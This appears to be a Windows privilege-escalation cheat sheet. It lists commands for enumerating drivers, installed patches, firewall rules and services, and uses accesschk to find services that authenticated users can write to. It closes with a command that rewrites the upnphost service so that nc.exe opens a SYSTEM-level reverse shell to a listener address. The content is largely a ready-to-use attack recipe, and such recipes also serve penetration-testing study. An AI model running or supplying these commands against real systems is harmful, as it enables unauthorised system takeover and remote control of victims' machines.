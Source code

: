 ### List installed drivers
```
driverquery
```

### List patch level (ie. what patches are installed)
```
wmic qfe get Caption,Description,HotFixID,InstalledOn
```

### Look for specific applied patches
```
wmic qfe get Caption,Description,HotFixID,InstalledOn | findstr /C:"KB..."
```

### Look at Windows Firewall rules
```
net firewall
```
**XP SP2 or higher, may require admin on newer Windows systems**

### List all Windows Firewall Inbound rules
```
netsh advfirewall firewall show rule name=all dir=in type=dynamic
```

### List all installed Windows Service Names and Displayed Names
```
sc query type= service state= inactive | findstr "SERVICE_NAME: DISPLAY_NAME:"
```
**Note:** This will produce a lot of output

### List Windows services where "Authenticated Users" have write access
```
accesschk.exe /accepteula -uwcqv "Authenticated Users" *
```
Ideally, we want to see services with SERVICE_ALL_ACCESS

### View current service options
```
sc qc [SERVICE_NAME]
```

### Use upnphost service to spawn a reverse shell as SYSTEM using nc.exe
```
sc config upnphost binpath= "[PATH_TO]\nc.exe -nv -e cmd.exe [LISTENER_IP] [LISTENER_PORT]" obj= ".\LocalSystem" password= ""
net start upnphost
```
**Note:** Requires admin privileges, or for upnphost to be configured with SERVICE_ALL_ACCESS
